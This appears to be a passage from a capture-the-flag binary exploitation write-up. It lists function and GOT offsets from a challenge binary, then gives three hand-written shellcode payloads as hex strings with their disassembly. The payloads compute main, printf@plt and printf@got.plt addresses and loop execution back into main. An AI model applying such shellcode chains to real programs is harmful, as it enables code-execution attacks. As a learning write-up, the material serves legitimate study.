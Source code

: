 And we have these offsets:

```
0x1295 <+236>:   call   rdx
0x1297 <+238>:   mov    eax,0x0
0x11a9 <main+0>:     endbr64
0x10a0 <printf@plt>: endbr64
0x3fc8 <printf@got.plt>:        0x0000000000001050
```

My first payload was: 

```
payload = "\x5B\x48\x31\xC0\xB0\xEE\x48\x29\xC3\x53\x49\x89\xDD\xC3"
sec_payload = "AAAA"
```

```
0:  5b                      pop    rbx
1:  48 31 c0                xor    rax,rax
4:  b0 ee                   mov    al,0xee
6:  48 29 c3                sub    rbx,rax
9:  53                      push   rbx
a:  49 89 dd                mov    r13,rbx
d:  c3                      ret
```
`rbx` will have addresss of `0x1297 <+238>:   mov    eax,0x0` then we calculate with the offset

`r13 = main_addr`

With this we can cycle over the main function over and over again

```
payload = "\x4D\x89\xEE\x48\x31\xC0\x66\xB8\x1F\x2E\x49\x01\xC6\x41\x55\xC3"
```

```
0:  4d 89 ee                mov    r14,r13
3:  48 31 c0                xor    rax,rax
6:  66 b8 1f 2e             mov    ax,0x2e1f
a:  49 01 c6                add    r14,rax
d:  41 55                   push   r13
f:  c3                      ret
```
`r14 = printf@got.plt_addr`

```
payload = "\x4D\x89\xF7\x48\x31\xC0\x66\xB8\x28\x2F\x49\x29\xC7\x41\x55\xC3"
```

```
0:  4d 89 f7                mov    r15,r14
3:  48 31 c0                xor    rax,rax
6:  66 b8 28 2f             mov    ax,0x2f28
a:  49 29 c7                sub    r15,rax
d:  41 55                   push   r13
f:  c3                      ret
```
`r15= printf@plt_addr`
